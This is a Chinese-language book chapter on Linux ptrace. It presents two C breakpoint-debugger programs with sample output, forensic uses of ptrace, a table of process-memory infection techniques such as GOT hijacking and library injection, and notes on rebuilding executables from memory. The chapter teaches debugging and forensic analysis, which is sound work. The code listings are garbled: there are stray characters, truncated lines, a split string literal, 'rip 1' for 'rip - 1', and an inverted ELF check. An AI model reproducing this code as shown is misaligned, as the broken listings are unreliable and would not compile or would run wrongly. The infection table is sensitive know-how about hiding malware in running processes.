


# 第三章 Linux 进程跟踪

在上一章中，我们介绍了`ELF`格式的内部结构并解释了它的内部工作原理。在使用`ELF`的 Linux 和其他 Unix 风格的操作系统中，`ptrace`系统调用与分析、调试、逆向工程和修改使用`ELF`格式的程序密切相关。`ptrace`系统调用用于连接到进程并访问整个代码、数据、堆栈、堆和寄存器范围。

由于`ELF`程序完全映射在进程地址空间中，您可以连接到进程并类似于在磁盘上对实际`ELF`文件进行操作一样解析或修改`ELF`镜像。主要区别在于我们使用`ptrace`来访问程序，而不是使用`open/mmap/read/write`调用来访问`ELF`文件。

使用`ptrace`，我们可以完全控制程序的执行流程，这意味着我们可以做一些非常有趣的事情，从内存病毒感染和病毒分析/检测到用户态内存 rootkit、高级调试任务、热修补和逆向工程。由于本书中有专门章节涵盖了其中一些任务，我们暂时不会深入讨论每一个。相反，我将为您提供一个入门，让您了解`ptrace`的一些基本功能以及黑客如何使用它。

# ptrace 的重要性

在 Linux 中，`ptrace(2)`系统调用是用户空间访问进程地址空间的手段。这意味着某人可以连接到他们拥有的进程并修改、分析、逆向和调试它。著名的调试和分析应用程序，如`gdb`、`strace`和`ltrace`都是`ptrace`辅助应用程序。`ptrace`命令对于逆向工程师和恶意软件作者都非常有用。

它给程序员提供了连接到进程并修改内存的能力，这可以包括注入代码和修改重要的数据结构，比如用于共享库重定向的**全局偏移表**（**GOT**）。在本节中，我们将介绍`ptrace`最常用的功能，演示来自攻击者方的内存感染，以及通过编写一个程序来将进程镜像重构回可执行文件进行进程分析。如果您从未使用过`ptrace`，那么您会发现您错过了很多乐趣！

# ptrace 请求

`ptrace`系统调用有一个`libc`包装器，就像任何其他系统调用一样，所以你可以包含`ptrace.h`并简单地调用`ptrace`，同时传递一个请求和一个进程 ID。以下细节并不取代`ptrace(2)`的主要页面，尽管一些描述是从主要页面借来的。

这就是概要。

```
#include <sys/ptrace.h>
long ptrace(enum __ptrace_request request, pid_t pid,
void *addr, void *data);
```

## ptrace 请求类型

以下是在使用`ptrace`与进程镜像交互时最常用的请求列表：

| 请求 | 描述 |
| --- | --- |
| `PTRACE_ATTACH` | 连接到指定`pid`的进程，使其成为调用进程的被跟踪者。被跟踪者会收到一个`SIGSTOP`信号，但不一定在此调用完成时已经停止。使用`waitpid(2)`等待被跟踪者停止。 |
| `PTRACE_TRACEME` | 表示此进程将由其父进程进行跟踪。如果父进程不希望跟踪它，那么进程可能不应该发出此请求。 |
| `PTRACE_PEEKTEXT PTRACE_PEEKDATA PTRACE_PEEKUSER` | 这些请求允许跟踪进程从被跟踪进程镜像中的虚拟内存地址读取；例如，我们可以将整个文本或数据段读入缓冲区进行分析。请注意，在`PEEKTEXT`、`PEEKDATA`和`PEEKUSER`请求之间的实现没有区别。 |
| `PTRACE_POKTEXT PTRACE_POKEDATA PTRACE_POKEUSER` | 这些请求允许跟踪进程修改被跟踪进程镜像中的任何位置。 |
| `PTRACE_GETREGS` | 此请求允许跟踪进程获取被跟踪进程的寄存器副本。当然，每个线程上下文都有自己的寄存器集。 |
| `PTRACE_SETREGS` | 此请求允许跟踪进程为被跟踪的进程设置新的寄存器值，例如，修改指令指针的值指向 shellcode。 |
| `PTRACE_CONT` | 此请求告诉停止的被跟踪进程恢复执行。 |
| `PTRACE_DETACH` | 此请求恢复被跟踪的进程，但也会分离。 |
| `PTRACE_SYSCALL` | 此请求恢复被跟踪的进程，但安排它在下一个系统调用的入口/退出处停止。这允许我们检查系统调用的参数，甚至修改它们。这个`ptrace`请求在一个名为`strace`的程序的代码中被大量使用，它随大多数 Linux 发行版一起提供。 |
| `PTRACE_SINGLESTEP` | 这会恢复进程，但在下一条指令后停止它。单步执行允许调试器在执行每条指令后停止。这允许用户在每条指令后检查寄存器的值和进程的状态。 |
| `PTRACE_GETSIGINFO` | 这会检索导致停止的信号的信息。它检索`siginfo_t`结构的副本，我们可以分析或修改它（使用`PTRACE_SETSIGINFO`）发送回 tracee。 |
| `PTRACE_SETSIGINFO` | 设置信号信息。从跟踪器中的地址数据复制一个`siginfo_t`结构到 tracee。这只会影响通常会传递给 tracee 并且会被 tracer 捕获的信号。很难区分这些正常信号和`ptrace()`本身生成的合成信号（`addr`被忽略）。 |
| `PTRACE_SETOPTIONS` | 从数据中设置`ptrace`选项（`addr`被忽略）。数据被解释为选项的位掩码。这些选项由以下部分的标志指定（查看`ptrace(2)`的主页面进行列出）。 |

术语*tracer*指的是正在进行跟踪的进程（调用`ptrace`的进程），而术语*tracee*或*the traced*指的是被 tracer 跟踪的程序（使用`ptrace`）。

### 注意

默认行为会覆盖任何 mmap 或 mprotect 权限。这意味着用户可以使用`ptrace`写入文本段（即使它是只读的）。如果内核是 pax 或 grsec 并且使用 mprotect 限制进行了修补，这就不成立了，它会强制执行段权限，以便它们也适用于`ptrace`；这是一个安全功能。

我在[`vxheavens.com/lib/vrn00.html`](http://vxheavens.com/lib/vrn00.html)上的关于*ELF 运行时感染*的论文讨论了一些绕过这些限制进行代码注入的方法。

# 进程寄存器状态和标志

`x86_64`的`user_regs_struct`结构包含通用寄存器、分段寄存器、堆栈指针、指令指针、CPU 标志和 TLS 寄存器：

```
<sys/user.h>
struct user_regs_struct
{
  __extension__ unsigned long long int r15;
  __extension__ unsigned long long int r14;
  __extension__ unsigned long long int r13;
  __extension__ unsigned long long int r12;
  __extension__ unsigned long long int rbp;
  __extension__ unsigned long long int rbx;
  __extension__ unsigned long long int r11;
  __extension__ unsigned long long int r10;
  __extension__ unsigned long long int r9;
  __extension__ unsigned long long int r8;
  __extension__ unsigned long long int rax;
  __extension__ unsigned long long int rcx;
  __extension__ unsigned long long int rdx;
  __extension__ unsigned long long int rsi;
  __extension__ unsigned long long int rdi;
  __extension__ unsigned long long int orig_rax;
  __extension__ unsigned long long int rip;
  __extension__ unsigned long long int cs;
  __extension__ unsigned long long int eflags;
  __extension__ unsigned long long int rsp;
  __extension__ unsigned long long int ss;
  __extension__ unsigned long long int fs_base;
  __extension__ unsigned long long int gs_base;
  __extension__ unsigned long long int ds;
  __extension__ unsigned long long int es;
  __extension__ unsigned long long int fs;
  __extension__ unsigned long long int gs;
};
```

在 32 位 Linux 内核中，`%gs`被用作**线程本地存储**（**TLS**）指针，尽管自`x86_64`以来，`%fs`寄存器已被用于此目的。使用`user_regs_struct`中的寄存器，并使用`ptrace`对进程的内存进行读/写访问，我们可以完全控制它。作为练习，让我们编写一个简单的调试器，允许我们在程序中的某个函数处设置断点。当程序运行时，它将在断点处停止并打印寄存器值和函数参数。

# 一个简单的基于 ptrace 的调试器

让我们看一个使用`ptrace`创建调试器程序的代码示例：

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <errno.h>
#include <signal.h>
#include <elf.h>
#include <sys/types.h>
#include <sys/user.h>
#include <sys/stat.h>
#include <sys/ptrace.h>
#include <sys/mman.h>

typedef struct handle {
  Elf64_Ehdr *ehdr;
  Elf64_Phdr *phdr;
  Elf64_Shdr *shdr;
  uint8_t *mem;
  char *symname;
  Elf64_Addr symaddr;
  struct user_regs_struct pt_reg;
  char *exec;
} handle_t;

Elf64_Addr lookup_symbol(handle_t *, const char *);

int main(int argc, char **argv, char **envp)
{
  int fd;
  handle_t h;
  struct stat st;
  long trap, orig;
  int status, pid;
  char * args[2];
  if (argc < 3) {
    printf("Usage: %s <program> <function>\n", argv[0]);
    exit(0);
  }
  if ((h.exec = strdup(argv[1])) == NULL) {
    perror("strdup");
    exit(-1);
  }
  args[0] = h.exec;
  args[1] = NULL;
  if ((h.symname = strdup(argv[2])) == NULL) {
    perror("strdup");
    exit(-1);
  }
  if ((fd = open(argv[1], O_RDONLY)) < 0) {
    perror("open");
    exit(-1);
  }
  if (fstat(fd, &st) < 0) {
    perror("fstat");
    exit(-1);
  }
  h.mem = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, fd, 0);
  if (h.mem == MAP_FAILED) {
    perror("mmap");
    exit(-1);
  }
  h.ehdr = (Elf64_Ehdr *)h.mem;
  h.phdr = (Elf64_Phdr *)(h.mem + h.ehdr->e_phoff);
  h.shdr = (Elf64_Shdr *)(h.mem + h.ehdr->e_shoff);
  if+ (h.mem[0] != 0x7f || strcmp((char *)&h.mem[1], "ELF")) {
    printf("%s is not an ELF file\n",h.exec);
    exit(-1);
  }
  if (h.ehdr->e_type != ET_EXEC) {
    printf("%s is not an ELF executable\n", h.exec);
    exit(-1);
  }
  if (h.ehdr->e_shstrndx == 0 || h.ehdr->e_shoff == 0 || h.ehdr->e_shnum == 0) {
    printf("Section header table not found\n");
    exit(-1);
  }
  if ((h.symaddr = lookup_symbol(&h, h.symname)) == 0) {
    printf("Unable to find symbol: %s not found in executable\n", h.symname);
    exit(-1);
  }
  close(fd);
  if ((pid = fork()) < 0) {
    perror("fork");
    exit(-1);
  }
  if (pid == 0) {
    if (ptrace(PTRACE_TRACEME, pid, NULL, NULL) < 0) {
      perror("PTRACE_TRACEME");
      exit(-1);
    }
    execve(h.exec, args, envp);
    exit(0);
  }
  wait(&status);
  printf("Beginning analysis of pid: %d at %lx\n", pid, h.symaddr);
  if ((orig = ptrace(PTRACE_PEEKTEXT, pid, h.symaddr, NULL)) < 0) {
    perror("PTRACE_PEEKTEXT");
    exit(-1);
  }
  trap = (orig & ~0xff) | 0xcc;
  if (ptrace(PTRACE_POKETEXT, pid, h.symaddr, trap) < 0) {
    perror("PTRACE_POKETEXT");
    exit(-1);
  }
  trace:
  if (ptrace(PTRACE_CONT, pid, NULL, NULL) < 0) {
    perror("PTRACE_CONT");
    exit(-1);
  }
  wait(&status);
  if (WIFSTOPPED(status) && WSTOPSIG(status) == SIGTRAP) {
    if (ptrace(PTRACE_GETREGS, pid, NULL, &h.pt_reg) < 0) {
      perror("PTRACE_GETREGS");
      exit(-1);
    }
    printf("\nExecutable %s (pid: %d) has hit breakpoint 0x%lx\n",
    h.exec, pid, h.symaddr);
    printf("%%rcx: %llx\n%%rdx: %llx\n%%rbx: %llx\n"
    "%%rax: %llx\n%%rdi: %llx\n%%rsi: %llx\n"
    "%%r8: %llx\n%%r9: %llx\n%%r10: %llx\n"
    "%%r11: %llx\n%%r12 %llx\n%%r13 %llx\n"
    "%%r14: %llx\n%%r15: %llx\n%%rsp: %llx",
    h.pt_reg.rcx, h.pt_reg.rdx, h.pt_reg.rbx,
    h.pt_reg.rax, h.pt_reg.rdi, h.pt_reg.rsi,
    h.pt_reg.r8, h.pt_reg.r9, h.pt_reg.r10,
    h.pt_reg.r11, h.pt_reg.r12, h.pt_reg.r13,
    h.pt_reg.r14, h.pt_reg.r15, h.pt_reg.rsp);
    printf("\nPlease hit any key to continue: ");
    getchar();
    if (ptrace(PTRACE_POKETEXT, pid, h.symaddr, orig) < 0) {
      perror("PTRACE_POKETEXT");
      exit(-1);
    }
    h.pt_reg.rip = h.pt_reg.rip - 1;
    if (ptrace(PTRACE_SETREGS, pid, NULL, &h.pt_reg) < 0) {
      perror("PTRACE_SETREGS");
      exit(-1);
    }
    if (ptrace(PTRACE_SINGLESTEP, pid, NULL, NULL) < 0) {
      perror("PTRACE_SINGLESTEP");
      exit(-1);
    }
    wait(NULL);
    if (ptrace(PTRACE_POKETEXT, pid, h.symaddr, trap) < 0) {
      perror("PTRACE_POKETEXT");
      exit(-1);
    }
    goto trace;
    }
    if (WIFEXITED(status))
    printf("Completed tracing pid: %d\n", pid);
    exit(0);
  }

  Elf64_Addr lookup_symbol(handle_t *h, const char *symname)
  {
    int i, j;
    char *strtab;
    Elf64_Sym *symtab;
    for (i = 0; i < h->ehdr->e_shnum; i++) {
      if (h->shdr[i].sh_type == SHT_SYMTAB) {
        strtab = (char *)&h->mem[h->shdr[h->shdr[i].sh_link].sh_offset];
        symtab = (Elf64_Sym *)&h->mem[h->shdr[i].sh_offset];
        for (j = 0; j < h->shdr[i].sh_size/sizeof(Elf64_Sym); j++) {
          if(strcmp(&strtab[symtab->st_name], symname) == 0)
          return (symtab->st_value);
          symtab++;
        }
      }
    }
  return 0;
  }
}
```

## 使用跟踪程序

要编译前面的源代码，请使用以下命令：

```
gcc tracer.c –o tracer

```

请记住，`tracer.c`通过查找和引用`SHT_SYMTAB`类型的段头来定位符号表，因此它不适用于已经剥离了`SHT_SYMTAB`符号表的可执行文件（尽管它们可能有`SHT_DYNSYM`）。这其实是有道理的，因为通常我们调试的程序仍处于开发阶段，所以它们通常有一个完整的符号表。

另一个限制是它不允许你向正在执行和跟踪的程序传递参数。因此，在真正的调试情况下，你可能需要向正在调试的程序传递开关或命令行选项，这样它就不会表现得很好。

作为我们设计的`./tracer`程序的一个例子，让我们尝试在一个非常简单的程序上使用它，这个程序调用一个名为`print_string(char *)`的函数两次，并在第一轮传递`Hello 1`字符串，在第二轮传递`Hello 2`。

这是使用`./tracer`代码的一个例子：

```
$ ./tracer ./test print_string
Beginning analysis of pid: 6297 at 40057d
Executable ./test (pid: 6297) has hit breakpoint 0x40057d
%rcx: 0
%rdx: 7fff4accbf18
%rbx: 0
%rax: 400597
%rdi: 400644
%rsi: 7fff4accbf08
%r8: 7fd4f09efe80
%r9: 7fd4f0a05560
%r10: 7fff4accbcb0
%r11: 7fd4f0650dd0
%r12 400490
%r13 7fff4accbf00
%r14: 0
%r15: 0
%rsp: 7fff4accbe18
Please hit any key to continue: c
Hello 1
Executable ./test (pid: 6297) has hit breakpoint 0x40057d
%rcx: ffffffffffffffff
%rdx: 7fd4f09f09e0
%rbx: 0
%rax: 9
%rdi: 40064d
%rsi: 7fd4f0c14000
%r8: ffffffff
%r9: 0
%r10: 22
%r11: 246
%r12 400490
%r13 7fff4accbf00
%r14: 0
%r15: 0
%rsp: 7fff4accbe18
Hello 2
Please hit any key to continue: Completed tracing pid: 6297

```

正如你所看到的，`print_string`上设置了一个断点，每次调用该函数时，我们的`./tracer`程序都会捕获陷阱，打印寄存器值，然后在我们按下字符后继续执行。`./tracer`程序是`gdb`等调试器工作的一个很好的例子。虽然它要简单得多，但它演示了进程跟踪、断点和符号查找。

如果你想一次执行一个程序并跟踪它，这个程序效果很好。但是如果要跟踪一个已经运行的进程呢？在这种情况下，我们希望使用`PTRACE_ATTACH`附加到进程映像。这个请求发送一个`SIGSTOP`到我们附加的进程，所以我们使用`wait`或`waitpid`等待进程停止。

# 具有进程附加功能的简单 ptrace 调试器

让我们看一个代码示例：

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <errno.h>
#include <signal.h>
#include <elf.h>
#include <sys/types.h>
#include <sys/user.h>
#include <sys/stat.h>
#include <sys/ptrace.h>
#include <sys/mman.h>

typedef struct handle {
  Elf64_Ehdr *ehdr;
  Elf64_Phdr *phdr;
  Elf64_Shdr *shdr;
  uint8_t *mem;
  char *symname;
  Elf64_Addr symaddr;
  struct user_regs_struct pt_reg;
  char *exec;
} handle_t;

int global_pid;
Elf64_Addr lookup_symbol(handle_t *, const char *);
char * get_exe_name(int);
void sighandler(int);
#define EXE_MODE 0
#define PID_MODE 1

int main(int argc, char **argv, char **envp)
{
  int fd, c, mode = 0;
  handle_t h;
  struct stat st;
  long trap, orig;
  int status, pid;
  char * args[2];

    printf("Usage: %s [-ep <exe>/<pid>]
    [f <fname>]\n", argv[0]);

  memset(&h, 0, sizeof(handle_t));
  while ((c = getopt(argc, argv, "p:e:f:")) != -1)
  {
  switch(c) {
    case 'p':
    pid = atoi(optarg);
    h.exec = get_exe_name(pid);
    if (h.exec == NULL) {
      printf("Unable to retrieve executable path for pid: %d\n",
      pid);
      exit(-1);
    }
    mode = PID_MODE;
    break;
    case 'e':
    if ((h.exec = strdup(optarg)) == NULL) {
      perror("strdup");
      exit(-1);
    }
    mode = EXE_MODE;
    break;
    case 'f':
    if ((h.symname = strdup(optarg)) == NULL) {
      perror("strdup");
      exit(-1);
    }
    break;
    default:
    printf("Unknown option\n");
    break;
  }
}
if (h.symname == NULL) {
  printf("Specifying a function name with -f
  option is required\n");
  exit(-1);
}
if (mode == EXE_MODE) {
  args[0] = h.exec;
  args[1] = NULL;
}
signal(SIGINT, sighandler);
if ((fd = open(h.exec, O_RDONLY)) < 0) {
  perror("open");
  exit(-1);
}
if (fstat(fd, &st) < 0) {
  perror("fstat");
  exit(-1);
}
h.mem = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, fd, 0);
if (h.mem == MAP_FAILED) {
  perror("mmap");
  exit(-1);
}
h.ehdr = (Elf64_Ehdr *)h.mem;
h.phdr = (Elf64_Phdr *)(h.mem + h.ehdr>
h.shdr = (Elf64_Shdr *)(h.mem + h.ehdr>

if (h.mem[0] != 0x7f &&!strcmp((char *)&h.mem[1], "ELF")) {
  printf("%s is not an ELF file\n",h.exec);
  exit(-1);
}
if (h.ehdr>e_type != ET_EXEC) {
  printf("%s is not an ELF executable\n", h.exec);
  exit(-1);
}
if (h.ehdr->e_shstrndx == 0 || h.ehdr->e_shoff == 0 || h.ehdr->e_shnum == 0) {
  printf("Section header table not found\n");
  exit(-1);
}
if ((h.symaddr = lookup_symbol(&h, h.symname)) == 0) {
  printf("Unable to find symbol: %s not found in executable\n", h.symname);
  exit(-1);
}
close(fd);
if (mode == EXE_MODE) {
  if ((pid = fork()) < 0) {
    perror("fork");
    exit(-1);
  }
  if (pid == 0) {
    if (ptrace(PTRACE_TRACEME, pid, NULL, NULL) < 0) {
      perror("PTRACE_TRACEME");
      exit(-1);
    }
    execve(h.exec, args, envp);
    exit(0);
  }
} else { // attach to the process 'pid'
  if (ptrace(PTRACE_ATTACH, pid, NULL, NULL) < 0) {
    perror("PTRACE_ATTACH");
    exit(-1);
  }
}
wait(&status); // wait tracee to stop
global_pid = pid;
printf("Beginning analysis of pid: %d at %lx\n", pid, h.symaddr);
// Read the 8 bytes at h.symaddr
if ((orig = ptrace(PTRACE_PEEKTEXT, pid, h.symaddr, NULL)) < 0) {
  perror("PTRACE_PEEKTEXT");
  exit(-1);
}

// set a break point
trap = (orig & ~0xff) | 0xcc;
if (ptrace(PTRACE_POKETEXT, pid, h.symaddr, trap) < 0) {
  perror("PTRACE_POKETEXT");
  exit(-1);
}
// Begin tracing execution
trace:
if (ptrace(PTRACE_CONT, pid, NULL, NULL) < 0) {
  perror("PTRACE_CONT");
  exit(-1);
}
wait(&status);

/*
    * If we receive a SIGTRAP then we presumably hit a break
    * Point instruction. In which case we will print out the
    *current register state.
*/
if (WIFSTOPPED(status) && WSTOPSIG(status) == SIGTRAP) {
  if (ptrace(PTRACE_GETREGS, pid, NULL, &h.pt_reg) < 0) {
    perror("PTRACE_GETREGS");
    exit(-1);
  }
  printf("\nExecutable %s (pid: %d) has hit breakpoint 0x%lx\n", h.exec, pid, h.symaddr);
  printf("%%rcx: %llx\n%%rdx: %llx\n%%rbx: %llx\n"
  "%%rax: %llx\n%%rdi: %llx\n%%rsi: %llx\n"
  "%%r8: %llx\n%%r9: %llx\n%%r10: %llx\n"
  "%%r11: %llx\n%%r12 %llx\n%%r13 %llx\n"
  "%%r14: %llx\n%%r15: %llx\n%%rsp: %llx",
  h.pt_reg.rcx, h.pt_reg.rdx, h.pt_reg.rbx,
  h.pt_reg.rax, h.pt_reg.rdi, h.pt_reg.rsi,
  h.pt_reg.r8, h.pt_reg.r9, h.pt_reg.r10,
  h.pt_reg.r11, h.pt_reg.r12, h.pt_reg.r13,
  h.pt_reg.r14, h.pt_reg.r15, h.pt_reg.rsp);
  printf("\nPlease hit any key to continue: ");
  getchar();
  if (ptrace(PTRACE_POKETEXT, pid, h.symaddr, orig) < 0) {
    perror("PTRACE_POKETEXT");
    exit(-1);
  }
  h.pt_reg.rip = h.pt_reg.rip 1;
  if (ptrace(PTRACE_SETREGS, pid, NULL, &h.pt_reg) < 0) {
    perror("PTRACE_SETREGS");
  exit(-1);
  }
  if (ptrace(PTRACE_SINGLESTEP, pid, NULL, NULL) < 0) {
    perror("PTRACE_SINGLESTEP");
    exit(-1);
  }
  wait(NULL);
  if (ptrace(PTRACE_POKETEXT, pid, h.symaddr, trap) < 0) {
    perror("PTRACE_POKETEXT");
    exit(-1);
  }
  goto trace;
}
if (WIFEXITED(status)){
  printf("Completed tracing pid: %d\n", pid);
  exit(0);
}

/* This function will lookup a symbol by name, specifically from
 * The .symtab section, and return the symbol value.
 */

Elf64_Addr lookup_symbol(handle_t *h, const char *symname)
{
  int i, j;
  char *strtab;
  Elf64_Sym *symtab;
  for (i = 0; i < h->ehdr->e_shnum; i++) {
    if (h->shdr[i].sh_type == SHT_SYMTAB) {
      strtab = (char *)
      &h->mem[h->shdr[h->shdr[i].sh_link].sh_offset];
      symtab = (Elf64_Sym *)
      &h->mem[h->shdr[i].sh_offset];
      for (j = 0; j < h>
      shdr[i].sh_size/sizeof(Elf64_Sym); j++) {
        if(strcmp(&strtab[symtab->st_name], symname) == 0)
        return (symtab->st_value);
        symtab++;
      }
    }
  }
  return 0;
}

/*
* This function will parse the cmdline proc entry to retrieve
* the executable name of the process.
*/
char * get_exe_name(int pid)
{
  char cmdline[255], path[512], *p;
  int fd;
  snprintf(cmdline, 255, "/proc/%d/cmdline", pid);
  if ((fd = open(cmdline, O_RDONLY)) < 0) {
    perror("open");
    exit(-1);
  }
  if (read(fd, path, 512) < 0) {
    perror("read");
    exit(-1);
  }
  if ((p = strdup(path)) == NULL) {
    perror("strdup");
    exit(-1);
  }
  return p;
}
void sighandler(int sig)
{
  printf("Caught SIGINT: Detaching from %d\n", global_pid);
  if (ptrace(PTRACE_DETACH, global_pid, NULL, NULL) < 0 && errno) {
    perror("PTRACE_DETACH");
    exit(-1);
  }
  exit(0);
}
```

使用`./tracer`（版本 2），我们现在可以附加到一个已经运行的进程，然后在所需的函数上设置一个断点，并跟踪执行。这是一个追踪一个程序的例子，该程序在循环中打印`Hello 1`字符串 20 次，使用`print_string(char *s);`：

```
ryan@elfmaster:~$ ./tracer -p `pidof ./test2` -f print_string
Beginning analysis of pid: 7075 at 4005bd
Executable ./test2 (pid: 7075) has hit breakpoint 0x4005bd
%rcx: ffffffffffffffff
%rdx: 0
%rbx: 0
%rax: 0
%rdi: 4006a4
%rsi: 7fffe93670e0
%r8: 7fffe93671f0
%r9: 0
%r10: 8
%r11: 246
%r12 4004d0
%r13 7fffe93673b0
%r14: 0
%r15: 0
%rsp: 7fffe93672b8
Please hit any key to continue: c
Executable ./test2 (pid: 7075) has hit breakpoint 0x4005bd
%rcx: ffffffffffffffff
%rdx: 0
%rbx: 0
%rax: 0
%rdi: 4006a4
%rsi: 7fffe93670e0
%r8: 7fffe93671f0
%r9: 0
%r10: 8
%r11: 246
%r12 4004d0
%r13 7fffe93673b0
%r14: 0
%r15: 0
%rsp: 7fffe93672b8
^C
Caught SIGINT: Detaching from 7452

```

因此，我们已经完成了简单调试软件的编码，它既可以执行程序并跟踪它，也可以附加到现有进程并跟踪它。这展示了`ptrace`最常见的用例，你编写的大多数使用`ptrace`的程序都将是对*tracer.c*代码技术的变化。

# 高级函数跟踪软件

2013 年，我设计了一个跟踪函数调用的工具。它与`strace`和`ltrace`非常相似，但它跟踪的不是`syscalls`或库调用，而是跟踪可执行文件中的每个函数调用。这个工具在第二章中有介绍，*ELF 二进制格式*，但它与`ptrace`的主题非常相关。这是因为它完全依赖于`ptrace`，并使用控制流监视执行一些非常狂野的动态分析。源代码可以在 GitHub 上找到：

[`github.com/leviathansecurity/ftrace`](https://github.com/leviathansecurity/ftrace)

# ptrace 和取证分析

`ptrace()`命令是最常用于用户空间内存分析的系统调用。实际上，如果你正在设计运行在用户空间的取证软件，它访问其他进程的内存的唯一方式是通过`ptrace`系统调用，或者通过读取`proc`文件系统（当然，除非程序有某种显式的共享内存 IPC 设置）。

### 注意

一个可以附加到进程，然后作为`ptrace`读/写语义的替代方案`open/lseek/read/write /proc/<pid>/mem`。

2011 年，我获得了 DARPA CFT（网络快速跟踪）计划的合同，设计了一个名为*Linux VMA Monitor*的东西。这个软件的目的是检测各种已知和未知的进程内存感染，如 rootkits 和内存驻留病毒。

它基本上使用特殊的启发式方法对每个进程地址空间执行自动智能内存取证分析，了解`ELF`执行。它可以发现异常或寄生体，如劫持函数和通用代码感染。该软件可以分析活动内存并作为主机入侵检测系统运行，或者对进程内存进行快照并对其进行分析。该软件还可以检测和清除磁盘上感染病毒的`ELF`二进制文件。

`ptrace`系统调用在软件中被大量使用，并展示了围绕`ELF`二进制和`ELF`运行时感染的许多有趣代码。我还没有发布源代码，因为我打算在发布之前提供一个更适合生产的版本。在本文中，我们将涵盖*Linux VMA Monitor*可以检测/清除的几乎所有感染类型，并讨论和演示用于识别这些感染的启发式方法。

十多年来，黑客一直在进程内存中隐藏复杂的恶意软件以保持隐蔽。这可能是共享库注入和 GOT 污染的组合，或者任何其他一组技术。系统管理员发现这些的机会非常渺茫，特别是因为公开可用于检测这些攻击的软件并不多。

我发布了几个工具，包括但不限于 AVU 和 ECFS，它们都可以在 GitHub 和我的网站[`bitlackeys.org/`](http://bitlackeys.org/)上找到。其他存在的用于此类事物的软件都是高度专业化并且私下使用，或者根本不存在。与此同时，一位优秀的取证分析师可以使用调试器或编写自定义软件来检测此类恶意软件，了解你要寻找的内容以及原因是很重要的。由于本章节主要讨论 ptrace，我想强调它与取证分析的相关性。尤其是对于那些对设计专门用于在内存中识别威胁的软件感兴趣的人。

在本章末尾，我们将看到如何编写程序来检测运行软件中的函数跳板。

## 在内存中寻找什么

`ELF`可执行文件在内存中几乎与磁盘上的相同，除了对数据段变量、全局偏移表、函数指针和未初始化变量（`.bss`部分）的更改。

这意味着在`ELF`二进制文件中使用的许多病毒或 rootkit 技术也可以应用于进程（运行时代码），因此对于攻击者来说更好地保持隐藏。我们将在整本书中深入讨论所有这些常见的感染向量，但以下是一些已被用于实现感染代码的技术列表：

| 感染技术 | 预期结果 | 驻留类型 |
| --- | --- | --- |
| GOT 感染 | 劫持共享库函数 | 进程内存或可执行文件 |
| **过程链接表**（**PLT**）感染 | 劫持共享库函数 | 进程内存或可执行文件 |
| `.ctors`/`.dtors`函数指针修改 | 改变到恶意代码的控制流 | 进程内存或可执行文件 |
| 函数跳板 | 劫持任何函数 | 进程内存或可执行文件 |
| 共享库注入 | 插入恶意代码 | 进程内存或可执行文件 |
| 可重定位代码注入 | 插入恶意代码 | 进程内存或可执行文件 |
| 对文本段的直接修改 | 插入恶意代码 | 进程内存或可执行文件 |
| 进程占有（将整个程序注入地址空间） | 在现有进程中隐藏运行完全不同的可执行程序 | 进程内存 |

使用`ELF`格式解析、`/proc/<pid>/maps`和`ptrace`的组合，可以创建一组启发式方法来检测前述技术中的每一种，并创建一个反方法来清除所谓的寄生代码。我们将在整本书中深入探讨所有这些技术，主要是在第四章和第六章。

# 进程映像重构 – 从内存到可执行文件

测试我们对`ELF`格式和`ptrace`的能力的一个很好的练习是设计软件，可以将进程映像重构为可工作的可执行文件。这对于我们在系统上发现可疑程序运行的类型的取证工作特别有用。**扩展核心文件快照**（**ECFS**）技术能够做到这一点，并将功能扩展到与传统 Linux 核心文件格式向后兼容的创新取证和调试格式。这在[`github.com/elfmaster/ecfs`](https://github.com/elfmaster/ecfs)上可用，并在本书的第八章中有进一步的文档，*ECFS – 扩展核心文件快照技术*。Quenya 也具有这个功能，并可以在[`www.bitlackeys.org/projects/quenya_32bit.tgz`](http://www.bitlackeys.org/projects/quenya_32bit.tgz)上下载。

## 进程可执行文件重构的挑战

为了将进程重构为可执行文件，我们必须首先考虑所涉及的挑战，因为有很多事情需要考虑。有一种特定类型的变量是我们无法控制的，这些是初始化数据中的全局变量。它们可能在运行时已经改变为代码所规定的变量，我们无法知道它们在运行之前应该被初始化为什么。我们甚至可能无法通过静态代码分析找到这一点。

以下是可执行文件重构的目标：

+   以进程 ID 作为参数，并将该进程映像重构为其可执行文件状态

+   我们应该构建一个最小的段头表，以便程序可以通过`objdump`和`gdb`等工具进行更准确的分析

## 可执行文件重构的挑战

完整的可执行文件重构是可能的，但在重构动态链接的可执行文件时会带来一些挑战。在这里，我们将讨论主要的挑战是什么，以及每个挑战的一般解决方案是什么。

### PLT/GOT 完整性

全局偏移表将填入相应共享库函数的解析值。当然，这是由动态链接器完成的，因此我们必须用原始的 PLT 存根地址替换这些地址。我们这样做是为了当共享库函数第一次被调用时，它们通过将 GOT 偏移推送到堆栈的 PLT 指令正确地触发动态链接器。参考本书的第二章中的*ELF 和动态链接*部分，*ELF 二进制格式*。

以下图表演示了 GOT 条目如何被恢复：



## 添加一个段头表

请记住，程序的段头表在运行时不会加载到内存中。这是因为它不需要。在将进程图像重构回可执行文件时，添加段头表是可取的（尽管不是必需的）。完全可以添加原始可执行文件中的每个段头条目，但是一个优秀的`ELF`黑客至少可以生成基本内容。

因此，请尝试为以下部分创建一个段头：`.interp`、`.note`、`.text`、`.dynamic`、`.got.plt`、`.data`、`.bss`、`.shstrtab`、`.dynsym`和`.dynstr`。

### 注意

如果您正在重构的可执行文件是静态链接的，那么您将不会有`.dynamic`、`.got.plt`、`.dynsym`或`.dynstr`部分。

## 进程的算法

